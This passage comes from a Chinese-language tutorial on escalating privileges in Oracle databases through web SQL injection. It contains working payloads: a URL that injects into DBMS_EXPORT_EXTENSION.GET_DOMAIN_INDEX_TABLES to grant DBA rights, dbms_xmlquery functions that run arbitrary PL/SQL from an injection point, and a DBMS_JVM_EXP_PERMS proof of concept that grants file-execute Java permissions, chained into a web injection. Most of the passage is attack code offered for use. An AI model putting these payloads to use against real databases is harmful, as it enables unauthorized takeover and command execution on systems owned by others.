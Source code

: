 我们可以看到当 GET_TABLES=1 时，这代码无懈可击，但是当 GET_TABLES=0 时，TYPE_SCHEMA 和 TYPE_NAME 就是注入点啊！突然觉得 oracle 觉得好可爱，这里我们就拿 get_domain_index_tables 演示

```
web: http://www.hellove.net/hellove.php?id=123 and SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('INDX','SCH','DBMS_OUTPUT".PUT(:P1);execute immediate ''declare pragma autonomous_transaction; begin execute immediate ''''grant dba to hellove''''; end;''; END;--','SYS',1,'1',0)=0; 
```

注射到第三参 TYPE_NAME，熟悉 pl/sql 的都应该了解上面在干嘛：） 不过这个包的三个函数在 06 年 7 月之后就被修复了，也就是说 oracle 11g 就不能再用了

> dbms_xmlquery.newcontext 与 dbms_xmlquery.getxml

我本来是还要写 hacking oracle with pl/sql 的，不过被这两个函数直接灭掉我这想法，这两个函数使得之前我以为仅能在 pl/sql 环境下利用的 漏洞，在 web 下也能利用了

```
dbms_xmlquery.getxml() public role  
dbms_xmlquery.newcontext() public role  
sys.kupp$proc.create_mater_process() dba role 
```

这三个函数都可以直接执行 PL/SQL 语句，定义为 invoker right ，所以使得之前只能在 pl/sql 环境中使用的漏洞，现在在 web 环境中也可以使用了，这三个函数应该都不算是存在漏洞，只能说是特性而已，后期会经常使用，现在提及一下

> DBMS_JVM_EXP_PERMS

DBMS_JVM_EXP_PERMS 这个包比较好玩，纯粹是逻辑型的漏洞，所需的权限非常小，只要有 create session 就可以了，只可惜 DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS 不能在 web 环境中直接调用，作者给的 poc 能使我们的用户直接得到 Java 权限

```
DECLARE  
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;  
CURSOR C1 IS SELECT 'GRANT',USER(), 'SYS','java.io.FilePermission','<<ALL FILES>>','execute','ENABLED' from dual;  
BEGIN  
OPEN C1;  
FETCH C1 BULK COLLECT INTO POL;  
CLOSE C1;  
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);  
END; 
```

个人 PL/SQL 编程技术有限，尝试将上述 poc 用 dbms_xmlquery.newcontext 结合利用，不晓得为什么 oracle 老是提示 ORA-03113: end-of-file on communication channel ,只能创建个函数，然后在通过函数进行利用，唉，结果又必须多一个 create procedure 权限才能利用 作者这个很厉害的漏洞，下面是我的代码

```
web: http://www.hellove.net/hellove.php?id=123 and dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;
 begin execute immediate ''create or replace function myjava return number is PRAGMA AUTONOMOUS_TRANSACTION;
 begin execute immediate ''''DECLARE POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;CURSOR C1 IS 
 SELECT ''''''''GRANT'''''''',USER(), ''''''''SYS'''''''',''''''''java.io.FilePermission'''''''',
 ''''''''&lt;&lt;ALL FILES&gt;&gt;'''''''',''''''''execute'''''''',''''''''ENABLED'''''''' from dual;BEGIN OPEN C1;
 FETCH C1 BULK COLLECT INTO POL;CLOSE C1;DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);END;'''';commit;return 1;end;''; 
 commit; end;') is not null

web: http://www.hellove.net/hellove.php?id=123 and myjava()=1 
```

